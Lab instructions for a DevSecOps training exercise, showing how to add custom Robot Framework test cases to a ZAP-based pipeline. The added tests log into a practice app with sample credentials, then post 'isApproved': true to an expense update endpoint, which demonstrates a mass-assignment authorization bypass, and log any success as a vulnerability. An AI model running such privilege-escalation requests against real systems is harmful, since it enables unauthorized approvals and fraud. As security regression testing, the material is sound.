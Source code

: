## Custom Regression Script - Robot Framework

* Step 1: `cd ﻿/home/vagrant/Labs/NodeRoboPipeline`
* Step 2: Copy the Test Cases from the `RegressionScript.txt` and paste it after the ZAP Active Scan test case in pipeline.robot (after line 61)

```
﻿ZAP Active Scan
    ${scan_id}=  zap start ascan  ${CONTEXT_ID}  ${ZAP_TARGET}  ${SCANPOLICY}
    set suite variable  ${SCAN_ID}  ${scan_id}
    zap scan status  ${scan_id}
    zap write to json file  ${ZAP_TARGET}

<<<NEW PASTED CONTENT>>
Auth Custom Exploit
    [Tags]  custom_exploit
    Authenticate to web service as a regular user

Create Expense for Custom Exploit
    [Tags]  custom_exploit
    [Setup]  Set Headers  { "Authorization": "${TOKEN}" }
    Create a Regular Expense
    Update Expense with Approved Tag
```

* Step 3: After all the test cases, paste the Keywords section from `RegressionScript.txt` (After line 67)

```
*** Keywords ***
Authenticate to web service as a regular user
    &{res}=  POST  /users/login  {"email": "maya.williams@widget.co", "password": "superman123"}
    Integer  response status  200
    Boolean  response body auth  true
    set suite variable  ${TOKEN}  ${res.body["token"]}
    log  ${TOKEN}

Create a Regular Expense
    &{res}=  POST  /expenses/create_expense  {"name": "Dinner at TGIF", "projectId": "5ace0e85b10d64111c00adb2", "merchant": "TGIF", "reason": "Food Expenses at Conference", "amount": 80}
    Integer  response status  201
    set suite variable  ${EXPENSE_ID}  ${res.body["expense"]}
    log  ${EXPENSE_ID}

Update Expense with Approved Tag
    &{res}=  POST  /expenses/update_expense/${EXPENSE_ID}  {"isApproved": true}
    Integer  response status  200
    ${vul_name}=  convert to string  Insecure Direct Object Reference - Mass Assignment
    ${tool}=  convert to string  Custom Exploit Script
    ${cwe}=  convert to integer  285
    ${description}=  convert to string  The update expense function is vulnerable to a Mass-Assignment style Insecure Direct Object Reference, where the attacker can guess the name of the named parameters and bypass authorization"
    ${severity}=  convert to integer  3
    &{vul_dict}=  Create Dictionary  name=${vul_name}  tool=${tool}  cwe=${cwe}  description=${description}  severity=${severity}  target_name=${TARGET_NAME}
    run keyword if  ${res.body["isApproved"]}==True  create vulnerability  ${vul_dict}
```

* Step 4: Follow the Instructions for `NodeRobotPipeline` from now on